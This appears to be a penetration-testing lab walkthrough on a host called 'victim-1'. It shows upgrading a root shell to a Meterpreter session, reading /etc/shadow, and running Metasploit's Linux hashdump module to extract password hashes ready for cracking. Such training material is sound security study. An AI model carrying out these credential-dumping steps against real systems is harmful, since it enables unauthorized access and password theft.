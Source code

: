 Put this in the background.

```
/bin/bash -i
root@victim-1:/# id
root@victim-1:/# ^Z
```

I can upgrade that session to a Meterpreter session using the command `sessions -u 1`. (Note: `-u`=upgrade)

```
sessions
sessions -u 1
```

So it looks like we obtained a Meterpreter session, and we got an error. 

`getuid` to verify that we have root access. The user ID `uid` is set to 0, which is the root user.

```
sessions
sessions 2
meterpreter > sysinfo
meterpreter > getuid
```

The first technique is the ability to display the contents of the shadow file. 

Because the root user account is the only user account on the system, the rest of them are service accounts.

The hashing algorithm value will be encapsulated in symbols. And in this case, the value is `6`, which tells us that this particular password has been encrypted using the SHA-512 hashing algorithm.

```
meterpreter > cat /etc/shadow
```

The other technique we can use with the Metasploit framework is the `hashdump` moudle.

```
meterpreter > 
Background session 2? [y/N]
search hashdump
use post/linux/gather/hashdump
show options
set SESSION 2
run
```

This will automatically get all the user accounts that have passwords, and it'll essentially provide you with the hashed passwords. And it'll save them for you within the following file here. So it's going to the unshadow the password file. The unshadow password file essentially means that this module has formatted this particular hashed password into a format that can be cracked or that is ready to be cracked.

If you have an Meterpreter session, you can utilize the hashdump module, or you can dump the hashes manually by simply displaying the contents of the shadow file.
